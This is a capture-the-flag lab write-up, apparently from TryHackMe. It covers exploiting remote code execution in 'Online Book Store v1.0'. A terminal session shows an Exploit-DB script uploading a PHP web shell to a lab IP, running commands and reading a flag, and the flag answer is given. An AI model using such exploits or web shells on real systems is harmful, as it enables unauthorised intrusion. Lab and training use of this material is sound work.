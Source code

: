         


What type of vulnerability was used in this attack?
*Remote Code Execution*  (This vulnerability allows code to be remotely executed)


###  Practical: Manual Exploitation 

Find out the version of the application that is running. What are the name and version number of the application? (This can all be found on the first page of the vulnerable application) *Online Book Store v1.0*

Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine. 

*No answer needed* (https://www.exploit-db.com/exploits/47887)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 47887.py http://10.10.66.111
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.66.111/bootstrap/img/DMXP3aW7rw.php
> Example command usage: http://10.10.66.111/bootstrap/img/DMXP3aW7rw.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
DMXP3aW7rw.php
OyWjgNLIbq.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg

RCE $ pwd
/var/www/html/bootstrap/img

RCE $ cat flag.txt
THM{BOOK_KEEPING}

RCE $ exit

```

Use this exploit against the vulnerable machine. What is the value of the flag located in a web directory? 
*THM{BOOK_KEEPING}*

[[Net Sec Challenge]]
